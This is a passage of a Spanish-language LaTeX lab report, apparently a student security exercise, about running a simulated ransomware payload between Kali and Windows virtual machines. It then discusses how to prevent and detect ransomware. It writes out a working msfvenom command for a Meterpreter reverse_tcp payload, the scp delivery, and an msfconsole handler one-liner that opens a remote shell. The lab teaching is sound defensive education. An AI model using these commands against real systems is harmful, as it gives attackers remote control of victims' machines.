    
\includegraphics[width=1\textwidth]{../../Ejercicio 8/cambio_IPs.png}
    \caption{Configuración de IPs en ambas máquinas}
    \label{fig:ip-config}
\end{figure}

Ahora, desde una terminal de Kali, hacemos la conexión ssh a Windows y ejecutamos algún comando
para verificar que la conexión funciona correctamente. En este caso se ejecuta \texttt{systeminfo} 
para obtener información del sistema operativo de Windows.

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{../../Ejercicio 8/ssh_info_win.png}
    \caption{Conexión ssh desde Kali a Windows}
    \label{fig:sshd-connection}
\end{figure}

En otra terminal procedemos a crear el payload de ransomware con \texttt{msfvenom}. El comando usado para hacerlo, 
considerando la IP de Kali, fue \texttt{msfvenom -p windows/meterpreter/reverse\_tcp LHOST=10.0.0.1
LPORT=4444 -f exe > /tmp/ransomware.exe}. 

Luego, para enviar el archivo, se usó el comando\\
\texttt{scp kali@kali:/tmp/ransomware.exe vmware@10.0.0.2:C:/Users/vmware/Desktop/}.

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{../../Ejercicio 8/virus_scp.png}
    \caption{Creación del payload con msfvenom y envío a Windows con scp}
    \label{fig:msfvenom-scp}
\end{figure}

Aprovechando la terminal abierta con la conexión ssh a Windows, se ejecuta el payload con 
\texttt{./Desktop/ransomware.exe}, mientras que en la terminal donde recién enviamos el archivo
se ejecuta el comando \texttt{msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse\_tcp; 
set LHOST 10.0.0.1; set LPORT 4444; exploit"}

La siguiente imágen muestra la ejecución del payload en Windows y la conexión establecida con Kali. Ejecutamos
el comando \texttt{sysinfo} para verificar que la conexión funciona correctamente.

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{../../Ejercicio 8/payload.png}
    \caption{Ejecución del payload en Windows y conexión establecida con Kali}
    \label{fig:payload-connection}
\end{figure}

\subsection{¿Qué medidas de seguridad se podrían implementar para prevenir este tipo de ataques de ransomware?}

La principal y más obvia es no desactivar Windows Defender ni el firewall de Windows, ya que estas herramientas 
están diseñadas para detectar y bloquear este tipo de amenazas a nivel de sistema operativo. Usar soluciones de 
seguridad avanzadas como antivirus, antimalware y sistemas de detección de intrusiones también ayudan a tener
una capa adicional de protección contra este tipo de ataques.

Luego, es importante mantener el sistema operativo y todas las aplicaciones actualizadas, ya que las actualizaciones 
suelen incluir parches de seguridad que corrigen vulnerabilidades que podrían ser explotadas por ransomware. 

Una política de consientización y capacitación de los empleados también es crucial, ya que muchos ataques de 
ransomware se inician a través de correos electrónicos de phishing o enlaces maliciosos. 

Además, implementar una estrategia de respaldo regular y segura puede ayudar a mitigar el impacto de un ataque 
de ransomware, permitiendo restaurar los datos sin pagar el rescate. 

\subsection{¿Cómo se podría detectar y mitigar un ataque de ransomware en una red empresarial?}

Para detectar un ataque de ransomware, se pueden utilizar sistemas de detección de intrusiones (IDS) y 
sistemas de prevención de intrusiones (IPS) que monitorean el tráfico de red en busca de patrones sospechosos
o comportamientos anómalos. También se pueden implementar soluciones de seguridad que analicen el comportamiento 
de los archivos y procesos en busca de actividades relacionadas con ransomware, como la encriptación masiva de 
archivos o la comunicación con servidores de comando y control.